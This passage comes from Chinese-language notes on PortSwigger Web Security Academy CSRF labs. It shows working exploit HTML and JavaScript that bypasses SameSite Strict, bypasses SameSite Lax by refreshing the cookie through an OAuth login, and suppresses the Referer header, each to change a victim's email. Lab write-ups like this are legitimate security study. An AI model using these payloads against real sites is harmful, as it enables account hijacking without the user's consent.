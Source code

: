 最后的漏洞利用

```html
<script>
	window.location = "https://0a6700e604da79818384460a00d600d9.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=1%401%26submit=1";
</script>
```

成功

#### 实验：通过同级域名绕过SameSite Strict(*)

涉及websocket劫持，先放一下

#### 实验：通过 cookie 刷新绕过 SameSite Lax

如果没有设置SameSite的属性，就会默认是Lax，但是是在2分钟之后才会触发，所以在登录2分钟之内是没有限制的，所以如果能刷新cookie就可以执行csrf攻击

这里的攻击有两部分，第一部分和之前的类似，向修改邮箱的站点发送POST请求

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
```

第二部分，是创建一个点击事件，点击页面的任意一个地方，就会打开登录的页面，这个页面基于Oauth的登录，这个就是这个登录的站点，然后就回触发事件，提交第一部分的请求

这里是因为触发Oauth登录时，会创建新的会话cookie，即使已经登录，然后再请求原站点就会带着这个cookie，是有效的，用点击事件是因为用弹出窗口会被拦截器拦截，阻止强制刷新cookie

```html
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

#### 实验：CSRF其中 Referer 验证取决于是否存在标头

修改邮箱，在burp中尝试发送请求，把referer标头删了，发现可以修改邮箱，所以只要能在发送请求的时候把这个标头无效就成功了

这里和前面比只增加了**head**标签中的**meta**标签，通过这个设置，我们可以控制从当前页面发起的请求不带有referer头，至于为什么是**referrer**是因为在一开始定义的时候就出错了，一直被保存下来

```html
<head>
    <meta name="referrer" content="no-referrer">
</head>
<form method="POST"action="https://0a3000f204c8a1a782edbbf9009a00a8.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="marin@email">
</form>

<script>
        document.forms[0].submit();
</script>
```
